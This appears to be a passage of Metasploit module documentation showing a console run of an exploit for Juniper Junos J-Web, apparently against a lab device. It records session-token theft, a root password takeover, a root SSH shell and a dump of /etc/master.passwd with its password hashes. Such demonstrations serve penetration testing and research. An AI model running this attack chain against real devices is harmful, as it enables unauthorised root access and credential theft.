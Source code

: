 ```


View the full module info with the info, or info -d command.

msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Environment variable manipulation succeeded indicating this target is vulnerable.
[*] Attempting to break out of FreeBSD jail by changing the root user's password, establishing an SSH session and then rewriting the original root user's password hash to /etc/master.passwd.
[!] This requires a user is authenticated to the J-Web application in order to steal a session token, also 'ssh root-login' is set to 'allow' on the device
[*] Found PHPSESSID: 90c641904f64e8378036ac32b8a6dfc860cf3256.
[*] Found csrf token: 6bd37a3776124d00f495f4306f0c8c91.
[*] Original encrypted root password: $6$bh9nWhr5sA0mjcZl$LURCntyXrzMfD1vaoawkahj5n86d9k4tTBzYs1zvSfVfDT1U8ricpkO7mDD2AjgciCXx.bNVEFcgk3wOs3YDb1
[*] Temporary root password Hash: $6$EHgi8RZTDSrDA2Zd$UTT5xh8F04TClznHUh6w8kZMeiN2icS7HZo1Eef03epX.vDxmVi6h2kssx1O.qrbDucKtRt7h/IoFRjWvEQvU1
[*] Successfully changed the root user's password to gCg6b3NTs10qWjiRVSsjAv7n
[+] Logged in as root
[*] Found shell.
[*] Rewriting the original root password hash to /etc/master.passwd
[*] Command shell session 2 opened (192.168.140.78:49763 -> 192.168.140.91:22) at 2023-09-28 14:14:39 -0400

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator),10(field),31(guest),73(config)
uname -a
FreeBSD JUNOS JNPR-11.0-20200608.0016468_buil FreeBSD JNPR-11.0-20200608.0016468_builder_stable_11 #0 r356482+0016468ed6c(stable/11): Sun Jun  7 23:59:18 PDT 2020     builder@feyrith.juniper.net:/volume/build/junos/occam/llvm-5.0/sandbox-20200605/freebsd/stable_11/20200605.171711_builder_stable_11.0016468/obj/amd64/juniper/kernels/JNPR-AMD64-PRD/kernel  amd64
cat /etc/master.passwd
root:$6$bh9nWhr5sA0mjcZl$LURCntyXrzMfD1vaoawkahj5n86d9k4tTBzYs1zvSfVfDT1U8ricpkO7mDD2AjgciCXx.bNVEFcgk3wOs3YDb1:0:0:super-user:0:0:Charlie &:/root:/bin/csh
daemon:*:1:1::0:0:Owner of many system processes:/root:/sbin/nologin
operator:*:2:5:operator:0:0:System &:/:/sbin/nologin
tty:*:4:65533::0:0:Tty Sandbox:/:/sbin/nologin
kmem:*:5:65533::0:0:KMem Sandbox:/:/sbin/nologin
sshd:*:22:22::0:0:Secure Shell Daemon:/var/empty:/sbin/nologin
ext:*:39:39:super-user:0:0:External applications:/:/sbin/nologin
bind:*:53:53::0:0:Bind Sandbox:/:/sbin/nologin
uucp:*:66:66::0:0:UUCP pseudo-user:/var/spool/uucppublic:/sbin/nologin
nobody:*:65534:65534::0:0:Unprivileged user:/nonexistent:/sbin/nologin
admin:$6$Dj.crXwf$EyAmqaJz7f3.JldkbZk7eZuApofQ7zK/z/7Q5ntrD3cebxYc9/Y2FSoJcUIZSgYwKGGyd0nnfNSvaHzkz6BLL1:2000:20:j-super-user:0:0:Administrator:/var/home/admin:/usr/sbin/cli
```
